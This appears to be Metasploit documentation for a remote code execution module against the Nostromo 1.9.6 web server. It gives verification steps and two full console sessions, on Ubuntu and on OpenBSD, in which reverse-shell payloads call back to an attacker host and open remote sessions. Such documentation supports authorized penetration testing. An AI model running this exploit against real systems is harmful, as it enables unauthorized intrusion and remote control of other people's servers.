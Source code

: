 ## Vulnerable Application

Verified against:

* Nostromo 1.9.6 on Linux

Nostrom sources can be downloaded from http://www.nazgul.ch/dev_nostromo.html

## Verification Steps

  1. Install the application
  2. Start msfconsole
  3. Do: `use exploit/multi/http/nostromo_code_exec`
  4. Do: `set rport <port>`
  5. Do: `set rhost <ip>`
  6. Do: `check`
  7. Do: `set payload linux/x86/meterpreter/reverse_tcp`
  8. Do: `set lhost <ip>`
  9. Do: `exploit`
  10. You should get a shell.

## Scenarios

Example utilizing nostromo 1.9.6 on Ubuntu Linux.

```
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 exploit(multi/http/nostromo_code_exec) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf5 exploit(multi/http/nostromo_code_exec) > set RPORT 8000
RPORT => 8000
msf5 exploit(multi/http/nostromo_code_exec) > check
[*] 192.168.1.9:8000 - The target appears to be vulnerable.
msf5 exploit(multi/http/nostromo_code_exec) > set target 1
target => 1
msf5 exploit(multi/http/nostromo_code_exec) > set payload linux/x86/meterpreter/reverse_tcp
payload => linux/x86/meterpreter/reverse_tcp
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST 192.168.1.10
LHOST => 192.168.1.10
msf5 exploit(multi/http/nostromo_code_exec) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 192.168.1.10:4444 
[*] Configuring Automatic (Linux Dropper) target
[*] Sending linux/x86/meterpreter/reverse_tcp command stager
[*] Sending stage (985320 bytes) to 192.168.1.9
[*] Meterpreter session 2 opened (192.168.1.10:4444 -> 192.168.1.9:52544) at 2019-10-29 16:08:18 +0100
[*] Command Stager progress - 100.00% done (763/763 bytes)

meterpreter > sysinfo
Computer     : nostromo.local
OS           : Ubuntu 18.04 (Linux 4.15.0-62-generic)
Architecture : x64
BuildTuple   : i486-linux-musl
Meterpreter  : x86/linux
meterpreter > exit
[*] Shutting down Meterpreter...
[*] 192.168.1.9 - Meterpreter session 2 closed.  Reason: User exit
```

nostromo 1.9.6 on OpenBSD.

```
msf5 > use exploit/multi/http/nostromo_code_exec
msf5 exploit(multi/http/nostromo_code_exec) > set RHOSTS 192.168.1.9
RHOSTS => 192.168.1.9
msf5 exploit(multi/http/nostromo_code_exec) > set RPORT 8001
RPORT => 8001
msf5 exploit(multi/http/nostromo_code_exec) > check
[*] 192.168.1.9:8001 - The target appears to be vulnerable.
msf5 exploit(multi/http/nostromo_code_exec) > set target 0
target => 0
msf5 exploit(multi/http/nostromo_code_exec) > set payload cmd/unix/reverse_perl
payload => cmd/unix/reverse_perl
msf5 exploit(multi/http/nostromo_code_exec) > set LHOST 192.168.1.10
LHOST => 192.168.1.10
msf5 exploit(multi/http/nostromo_code_exec) > set LPORT 4444
LPORT => 4444
msf5 exploit(multi/http/nostromo_code_exec) > run

[*] Started reverse TCP handler on 192.168.1.10:4444
[*] Configuring Automatic (Unix In-Memory) target
[*] Sending cmd/unix/reverse_perl command payload
[*] Command shell session 1 opened (192.168.1.10:4444 -> 192.168.1.9:52312) at 2019-10-29 15:48:28 +0100
id
uid=536(_nostromo) gid=536(_nostromo) groups=0(wheel), 2(kmem), 3(sys), 4(tty), 5(operator), 20(staff), 31(guest)
uname -avr
OpenBSD nostromo.local 6.4 GENERIC#349 amd64
^C
Abort session 1? [y/N]  y
[*] 192.168.1.9 - Command shell session 1 closed.  Reason: User exit
```
